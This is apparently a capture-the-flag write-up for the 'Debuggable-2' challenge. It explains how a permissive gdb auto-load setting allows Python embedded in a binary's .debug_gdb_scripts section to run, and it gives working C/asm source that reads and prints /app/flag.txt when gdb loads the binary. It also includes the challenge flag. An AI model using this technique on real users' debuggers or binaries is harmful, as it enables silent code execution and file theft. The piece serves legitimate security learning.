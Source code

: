 # Debuggable-2
> GDB is safe if you never run the binary right?

# Files

```
Dockerfile
run.py
script
```

This time we have an extra file `script` that has one line: `set auto-load safe-path /`

This script is put in our .gdbinit for our docker container

The `run.py` has also changed to run:
```
q
```

# Approach

`set auto-load safe-path /` basically lets gdb run any script that is embedded in our binary

So all we have to do is embed malicious python code in our binary that outputs the contents of `/app/flag.txt`

Looking at the [GDB Docs](https://sourceware.org/gdb/current/onlinedocs/gdb.html/dotdebug_005fgdb_005fscripts-section.html) we can see some examples for embedding python code

There are 2 ways to do this:
- embedding a refrence to a python script
- embedding a python script itself

We will use the second since we can't use any python scripts on the server

# Solution

We make a basic c file using the docs sample:
```
asm(
".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
".byte 4\n"                          // SECTION_SCRIPT_ID_PYTHON_TEXT = 4
".ascii \"gdb.printflag\\n\"\n"
".ascii \"import gdb\\n\"\n"
".ascii \"f = open('/app/flag.txt', 'r')\\n\"\n"
".ascii \"content = f.read()\\n\"\n"
".ascii \"f.close()\\n\"\n"
".ascii \"gdb.write(content)\\n\"\n"
".byte 0\n"
".popsection\n"
);

int main(void){}
```

which embeds the following python code:
```
import gdb
f = open('/app/flag.txt', 'r')
content = f.read()
f.close()
gdb.write(content)
```

Compile this, and we have successfully created a binary that will immediately dump the contents of `/app/flag.txt` upon loading the binary

Convert this to base64 send to the instance and we get our flag `.;,;.{random_embedded_scripting_languages_what_could_possibly_go_wrong}`
